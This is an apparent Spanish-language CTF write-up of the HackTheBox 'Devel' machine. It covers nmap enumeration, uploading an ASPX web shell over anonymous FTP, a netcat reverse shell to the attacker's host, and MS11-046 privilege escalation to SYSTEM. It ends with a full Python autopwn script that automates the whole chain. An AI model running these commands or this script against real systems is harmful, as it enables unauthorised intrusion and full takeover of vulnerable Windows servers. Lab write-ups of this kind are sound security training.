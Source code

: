 ```yaml
---
layout: single
title: HackTheBox - Máquina Devel
excerpt: "Solución de la máquina Devel de Hack the Box. Se añade un script autopwn en python."
date: 2021-03-24
classes: wide
header:
  teaser: /assets/images/htb/devel/devel.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Windows
  - Easy
---
```


<p align="center">
<img src="/assets/images/htb/devel/devel.png">
</p>

# Enumeración

```bash
nmap -p- -sS --min-rate=5000 --open -vvv -Pn -n 10.10.10.5 -oG allPorts
```

```bash
nmap -sC -sV -p21,80 10.10.10.5 -oN targeted
```

Resultado:

```text
PORT         STATE     SERVICE         VERSION
21/tcp        open       ftp        Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp        open         http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Explotación

La shell en aspx que subire mediante el ftp se encuentra en el directorio `/usr/share/davtest/backdoors/aspx_cmd.aspx`.

```bash
ftp 10.10.10.5 (conexión modo anónima)
put aspx_cmd.aspx
```

A través del navegador accedemos al recurso (10.10.10.5/aspx_cmd.aspx) y saldrá un input para insertar comandos y un botón para ejecutarlos.

Mediante la utilidad <b>smbserver.py</b> de la herramienta impacket, voy a compartir el binario de Netcat (nc.exe) para poder ejecutarlo desde el input de la shell (Mi recurso compartido se llamará shared).

```bash
python3 smbserver.py <nombre_recurso_compartido>  <ruta_a_compartir>
```

Petición a nuestro binario compartido:

```bash
\\10.10.XX.XX\shared\nc.exe -e cmd.exe 10.10.XX.XX 4444
```

En la máquina atacante dejamos el listener:

```bash
nc -nvlp 4444
```

Whoami en la máquina victima:

```bash
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

# Escalado de privilegios

Vamos a enumerar un poco el sistema con `systeminfo` y vamos a utilizar la información de `OS Version: 6.1.7600 N/A Build 7600` 

Investigamos sobre `Version: 6.1.7600 N/A Build 7600 privilege escalation` y como resultado obtenemos [Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564), el script esta c y habría que compilarlo por lo que vamos a descargar el fichero compilado [ms11-046.exe](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046) y subirlo por el ftp a la máquina.

```bash
ftp 10.10.10.5 (conexión anónima)
binary
put ms11-046.exe
```
Por último, vamos a ejecutar el fichero `ms11-046.exe` que se encuentra en el directorio `C:\inetpub\wwwroot` y mediante whoami, obtenemos el usuario `nt authority\system` y para finalizar quedaría obtener las flags.


# Autopwn.py

Se ha automatizado la explotación y la escalada de privilegios con el siguiente script. En la declaración de variables modificar el nombre de los archivos y cambiar la IP y puerto de la víctima atacante.

```python
#!/usr/bin/bash python3

#coding=utf-8

import time, sys, os, re, requests, threading
from pwn import *
from ftplib import FTP

# Variable declaration
malicious_files = ["aspx_cmd.aspx", "ms11-046.exe", "nc.exe"]
URL_CMD = "http://10.10.10.5/%s" % malicious_files[0]
HOST = "10.10.10.5"
FTP_USER = "anonymous"
FTP_PASSWORD = ""
ATTACKER_IP = ""
ATTACKER_PORT = 4444

def def_handler(sig, frame):
    print("[!] Saliendo...")
    sys.exit(1)
    
signal.signal(signal.SIGINT , def_handler)

def header():
    header = """
 ================================================
                _        _____                 _ 
     /\        | |      |  __ \               | |
    /  \  _   _| |_ ___ | |__) |_      ___ __ | |
   / /\ \| | | | __/ _ \|  ___/\ \ /\ / / '_ \| |
  / ____ \ |_| | || (_) | |     \ V  V /| | | |_|
 /_/    \_\__,_|\__\___/|_|      \_/\_/ |_| |_(_)
 ================================================ by SuprAltCtrl                                              
 
 Resources used:
|==== NAME ==== | ============================== PATH ====================================|
| aspx_cmd.aspx | /usr/share/davtest/backdoors/aspx_cmd.aspx                              |
| ms11-046.exe  | https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046 |
| nc.exe        | /usr/share/windows-resources/binaries/nc.exe                            |
===========================================================================================
                                         
"""
    print(header)
    

def run():
    try:
        l1 = log.progress('FTP')
        l1.status("Estableciendo conexion")
        time.sleep(2)
        
        ftp = FTP(HOST,FTP_USER,FTP_PASSWORD)
        ftp.login()
        
        l1.status("Subiendo ficheros")
        time.sleep(2)
        for malicious_file in malicious_files:
            fp = open(malicious_file,'rb')  
            ftp.storbinary('STOR %s' % os.path.basename(malicious_file), fp, 1024)
            fp.close()
            
        s = requests.session()
        r = s.get(URL_CMD)
        
        viewState = re.findall(r'__VIEWSTATE" value="(.*?)"', r.text)[0]
        eventValidation = re.findall(r'__EVENTVALIDATION" value="(.*?)"', r.text)[0]
        
        post_data = {
            "__VIEWSTATE": viewState,
            "__EVENTVALIDATION": eventValidation,
            "txtArg": "C:\inetpub\wwwroot\%s -e cmd %s %s" % (malicious_files[2],ATTACKER_IP,ATTACKER_PORT),
            "testing": "excute"
        }
        
        l1.success("Archivos subidos correctamente")
        
        l2 = log.progress("Reverse Shell")
        l2.status("Ejecutando binario %s" % malicious_files[2])
        time.sleep(2)
        
        r = s.post(URL_CMD, data=post_data, timeout=2)
        
        l2.success("Comando ejecutado correctamente")
        time.sleep(2)
    
    except requests.exceptions.ReadTimeout:
        l2.success("Comando ejecutado correctamente")
        time.sleep(2)
    
    except Exception as e:
        print(str(e))
        print("[!] Ha ocurrido un error \n")
        sys.exit(1)

if __name__ == "__main__":
    header()
    try:
        t = threading.Thread(target=run)
        t.start()
    except Exception as e:
        log.error(str(e))
        
    shell = listen(ATTACKER_PORT, timeout=20)
    shell.wait_for_connection()
    
    if shell.sock is None:
        log.failure("[!] No se ha establecido la conexion")
        sys.exit(1)
    
    else:
        log.success("Se ha establecido correctamente la conexion")
        time.sleep(2)
        
        l3 = log.progress('Escalada de privilegios')
        l3.status("Ejecutando binario %s " % malicious_files[1])
        time.sleep(2)
        
        shell.sendline("C:\inetpub\wwwroot\%s" %malicious_files[1])
        l3.success("Escalada de privilegios realizada correctamente")
        time.sleep(2)
        shell.sendline("type c:\\Users\\babis\\Desktop\\user.txt.txt")
        shell.sendline("type c:\\Users\\Administrator\\Desktop\\root.txt")
        shell.interactive()
```